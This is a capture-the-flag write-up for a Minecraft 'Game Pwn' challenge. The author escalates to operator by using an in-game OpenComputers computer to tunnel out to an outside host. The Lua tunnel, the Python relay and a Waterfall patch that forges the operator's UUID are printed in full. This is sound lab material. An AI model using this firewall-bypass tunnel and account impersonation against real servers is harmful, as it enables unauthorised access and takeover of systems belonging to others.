



# ALLES!Craft
**Catagory:** Game Pwn  
**Difficulty:** Hard
> JOIN MY NEW COOL MINECRAFT SERVER, PLS NO HAX :)

## Challenge Setup
The challenge server consists of a Waterfall proxy, which is connected to a server running SpongeForge. The only installed mod on the server is the [OpenComputers](https://github.com/MightyPirates/OpenComputers) mod.  
  
The Waterfall proxy is also connected to a queue server. When we first connect to the proxy, we are moved to the queue server. After completing a simple parkour challenge (using [flyhacks](https://impactclient.net/) of course ;) ), we are moved to a SpongeForge server. Each SpongeForge server allows one player to connect at a time.


  
We are provided with all required files to set up a local server. This also includes source code for a custom "flag" plugin that runs on the SpongeForge server.

## Poking at the plugin
The plugins code is fairly straight forward; A new command is registered that simply returns the flag. The only catch is that you need "\*" (operator) permissions to use it.  
```java
@Listener
public void onServerStart(GameStartedServerEvent ev) {
	Sponge.getCommandManager().register(this,
			CommandSpec.builder().description(Text.of("Obtain the flag")).permission("*")
```
Furthermore, the plugin also hints that it is possible for admins to join the SpongeForge server, which will become important later.
```java
@Listener
public void onPlayerDisconnect(ClientConnectionEvent.Disconnect ev) {
	// Shutdown the server if the owning player exits
	// We need this check in order for ALLES! admins to be able to join and leave
	// We are always watching :) Build us something nice ;)
```

## The server files
The provided server files allow us to examine the setup of the servers. The proxy and queue servers are also included, but all of the interesting stuff is in the SpongeForge settings.  
  
### Sponge Server Properties
The `server.properties` file reveals that the server is running on port `31337`. It also shows that the server is running in offline mode, and will trust any upstream proxy to handle authentication. I'll go into more detail later, but in a nutshell; you should **never** be allowed to connect to Forge directly, since it doesn't perform any authentication. This is ensured by disallowing any remote connections directly to the Forge server.  

Finally, the `ops.json` file contains the following:
```json
[
  {
    "uuid": "8526be5c-2c8b-4661-83eb-a160bf9818ec",
    "name": "ALLESCTF",
    "level": 4,
    "bypassesPlayerLimit": false
  }
]
```
There is a single Operator account called `ALLESCTF`. If we can impersonate this account, we can promote our own account to operator as well.

## But what about this computer thingy?
The server only has a single mod installed, so it's probably important somehow. After joining the server, we find ourselves on a small island, with a computer set up on the shore. When examining the computer, I noticed that it contains an [internet card](https://ocdoc.cil.li/item:internet_card).  
The internet component supports both raw TCP sockets, and HTTP requests. The catch here is that these TCP sockets will originate **from** the SpongeForge server, and thus will not be shot down by the firewall rules. Furthermore, it is also able to connect to any IP on the internet.  
  
To drive home the point that these sockets are stupidly powerful, people have written actual [FTP servers](https://github.com/Jereq/OC-FTP) and [IRC clients](https://github.com/MightyPirates/OpenComputers/blob/master-MC1.7.10/src/main/resources/assets/opencomputers/loot/irc/usr/bin/irc.lua) using them.

## Putting it all together
Now that we have a way to create a TCP proxy from inside the SpongeForce server, we have all required parts to complete the challenge.  

### Final goal
Let's start by giving a quick overview of the game plan here. We want to set up a TCP session through an OpenComputers program. We will need 3 pieces of software to realise this goal:  
* A proxy written in Lua, to run on the in-game computer.
* A "middleware" proxy (written in Python).
* An "Evil" Waterfall proxy, to handle authentication.
  


**note:** While I used a different machine to host the Python and Waterfall proxies, there is no reason you couldn't host everything on your own machine. It was just slightly more convenient for me to do it this way.

### Lua Proxy
The Lua proxy will run on the in-game computer. Its job is to set up two connections, one connection to the attackers server, and another connection to the SpongeForge server. Then it just needs to pass TCP data back and forth to create a connection.  
  
Here is the code for our proxy:
```lua
local component = require("component")  
local net = component.internet

-- Remote proxy  --  your domain/IP here V
local remote = net.connect("ctf.bricked.tech", 1337)  
-- Local minecraft server
local local_serv = net.connect("0.0.0.0", 31337)  

local size = 4096

if (remote and local_serv) then
	print("Connected to both servers")
	local data
	while(remote and local_serv) do
		-- [remote] --> [alles]
		data = remote.read(size)
		if data then
			local_serv.write(data)
		end
		-- [alles] --> [remote]
		data = local_serv.read(size)
		if data then
			remote.write(data)
		end
	end
end

remote:close() 
local_serv:close()

```
### Python Proxy
The Python proxy will serve as "middleware" between our Waterfall server and the Lua proxy. It starts by listening for an incoming connection from the Lua proxy. Once it connects, the proxy starts listening for a connection from our "Evil" Waterfall proxy.  
Once both connections are established, it behaves pretty much the same as the previous proxy.  
  
This proxy is not very robust, but it only needs to work once ¯\\\_(ツ)\_/¯.
```python
import socket

MC_PORT = 25567
CTF_PORT = 1337
SIZE = 4096

# Open a port for the chal server to connect to
s_ctf = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s_ctf.bind(("", CTF_PORT))
s_ctf.listen()

# Open a port for our Waterfall server to connect to
s_mc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s_mc.bind(("", MC_PORT))
s_mc.listen()

# Wait for the chal server to connect
ctf_conn, ctf_addr = s_ctf.accept()
print("Incomming connection from chal {}".format(ctf_addr))
ctf_conn.settimeout(0.5)

# Wait for Waterfall to connect
mc_conn, mc_addr = s_mc.accept()
mc_conn.settimeout(0.5)
print("\"Evil\" Waterfall proxy connected from {}".format(mc_addr))


while True:
    # [Waterfall] --> [Lua Proxy]
    try:
        client_data = mc_conn.recv(SIZE)
        ctf_conn.send(client_data)
    except socket.timeout:
        pass
    # [Waterfall] <-- [Lua Proxy]
    try:
        ctf_data = ctf_conn.recv(SIZE)
        mc_conn.send(ctf_data)
    except socket.timeout:
        pass

```
**note:** This will only work for the first Waterfall connection.

### "Evil" Waterfall proxy
At this point, we can already connect to the SpongeForge server, via our Python proxy. When we try to join however, we encounter the following error:  
  
The issue is that the SpongeForge server is expecting to receive authentication data from an upstream proxy. Therefore, we need some Waterfall proxy that will "vouch" for us when we claim to be `ALLESCTF`.  
This can be achieved by creating a new Waterfall proxy and configuring it to run in "offline mode". This allows us to join the SpongeForge server as `ALLESCRAFT`.  
  
So job done right? Well not exactly. Each user also has a unique UUID, which should also match the UUID defined in `ops.json` before we receive operator permissions.  
The UUID is calculated differently when a server is in offline mode, hence it won't match the saved UUID. To work around this issue, we can simply hardcode the offline UUID to always return "8526be5c-2c8b-4661-83eb-a160bf9818ec". This will only work for the `ALLESCTF` account, but that is good enough for us.  
  
I cloned the [Waterfall repository](https://github.com/PaperMC/Waterfall) and added a small "git patch" to hardcode correct UUID:
```diff
diff --git a/proxy/src/main/java/net/md_5/bungee/connection/InitialHandler.java b/proxy/src/main/java/net/md_5/bungee/connection/InitialHandler.java
index 1d419de5..f14dd9c5 100644
--- a/proxy/src/main/java/net/md_5/bungee/connection/InitialHandler.java
+++ b/proxy/src/main/java/net/md_5/bungee/connection/InitialHandler.java
@@ -497,10 +497,16 @@ public class InitialHandler extends PacketHandler implements PendingConnection
 
         }
 
-        offlineId = UUID.nameUUIDFromBytes( ( "OfflinePlayer:" + getName() ).getBytes( Charsets.UTF_8 ) );
+	//ALLES CTF PATCH
+	// UUID for ALLESCTF:
+	offlineId =  Util.getUUID("8526be5c2c8b466183eba160bf9818ec");
         if ( uniqueId == null )
         {
             uniqueId = offlineId;
         }
 
         Callback<LoginEvent> complete = new Callback<LoginEvent>()
```

Now, we can compile Waterfall and execute it to generate a `config.yml` file. We need to make the following changes to the config:
* online_mode: false
* forge_support: true
* servers:
	* lobby:
		* address: [PythonProxyIP:25567]

## Flag time
With all software in place, it is time to retrieve the flag!  
  
First we need to craft an [OpenOs floppy disk](https://ocdoc.cil.li/item:openos_floppy) with the resources on the island. After which we can boot up the computer and paste our Lua code into a new file. Make sure the Python proxy is running, before executing the Lua script. When the Lua script is executed, a connection will appear in the Python proxy.  
  
Then, start a second Minecraft client in offline mode, logged in as `ALLESCTF`. I used [Impact](https://impactclient.net/)'s alt manager for convenience.  
Finally, start the "Evil" Waterfall proxy and connect to it from the second client. The connection will be painfully slow and unstable, but should last just long enough to type:
```
/op [YourUserName]
```
After that command goes through, you can simply type `/flag` on your main account to receive the flag.
